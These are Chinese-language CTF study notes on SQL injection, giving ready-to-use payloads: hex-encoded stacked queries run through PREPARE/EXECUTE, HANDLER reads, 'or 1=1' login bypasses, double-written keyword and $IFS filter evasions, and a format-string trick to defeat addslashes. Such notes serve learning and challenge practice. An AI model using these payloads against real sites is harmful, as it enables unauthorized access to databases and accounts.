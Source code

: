 ### 爆出字段名后
* 将：
```
select * from`1919810931114514`
```
进行16进制编码
* 构造playload：
>;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
---
* prepare…from…是预处理语句，会进行编码转换。
* execute用来执行由SQLPrepare创建的SQL语句。
* SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
* `将@a赋值为16进制编码后的语句，再将@a中的语句转换后给execsqp，执行execsql中的语句`
---
### handler语句
> handler是mysql的专用语句，没有包含到SQL标准中，但它每次只能查询1次记录，而select可以根据需要返回多条查询结果。
hander `表名` open;           // 打开一个表
handler`表名`read frist;      // 查询第一个数据
handler`表名`read next;     // 查询之后的数据直到最后一个数据返回空
```
handler`1919810931114514` open;handler`1919810931114514`read next;
```
## 9.万能密码:
```sql
username=admin'or'1=1&password=admin'or'1=1
```
`输入账号密码`

```sql
SELECT * FROM t_user WHERE username = 'xxx' AND password = 'xxxx'
```
* 用or 1=1 使where条件恒为true
## 过滤
* 过滤空格,{}：$IFS
* 过滤flag：
* 将关键字replace为空格，使用双写绕过
```
cat$IFS$9`ls` //`ls`可以输出查询结果的内容
```
## 双写绕过：
* playload:(check.php)?username='oorr 1=1%23&password='
`%23为注释，注释掉后面的password，因此password可以随便写;注意先单引号闭合`

## 10.post注入
* 常产生地方：登录框（less-11）
* 数据包提交方式为post
* 此处注释用#或者-- 

## 信息搜集

> 如果我们输入"%\"或者"%1$\",他会把反斜杠当做格式化字符的类型，然而找不到匹配的项那么"%\","%1$\"就因为没有经过任何处理而被替换为空。如果%1$ + 非arg格式类型，程序会无法识别占位符类型，变为空

做题时遇到了函数addslashes()，会在单引号前面加/无法用单引号闭合
```
?name=1&pass=%1$' or 1=1--+
```
